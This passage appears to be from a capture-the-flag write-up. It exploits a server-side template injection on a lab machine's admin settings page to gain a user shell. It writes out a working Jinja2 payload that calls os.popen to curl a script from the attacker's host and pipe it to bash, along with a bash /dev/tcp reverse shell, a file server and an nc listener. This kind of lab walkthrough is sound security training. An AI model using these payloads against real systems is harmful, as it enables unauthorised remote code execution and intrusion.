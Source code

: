 
## User shell
### SSTI on `internal-administration.goodgames.htb/settings`
After enumerating the pages at the `internal-administration` subdomain, we found the page `/settings`, which let us modify the users information and presents a report of te modification. If we try to inject a field, for example the name, with `{{7*7}}, we obtain:
![](img/2022-06-04-19-05-48.png)
We successfully achieved SSTI, so we can now try to obtain a reverse shell:
- First, we confirm that the system has the `curl` and `bash` binaries.
- Second, we inject `curl 10.10.16.2:4444/Exploits/reverse_tcp | bash` into the `name` field:
```bash
# Setting up the reverse shell
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > Exploits/reverse_tcp
❯ python3 -m http.server 4444 &
❯ nc -nlvp 3333
```
```python
# Payload
{{}}{{config.__class__.__init__.__globals__['os'].popen('curl 10.10.16.2:4444/Exploits/reverse_tcp | bash').read()}}
```
Now, we launch the reverse shell and obtain a user shell:
```bash
```
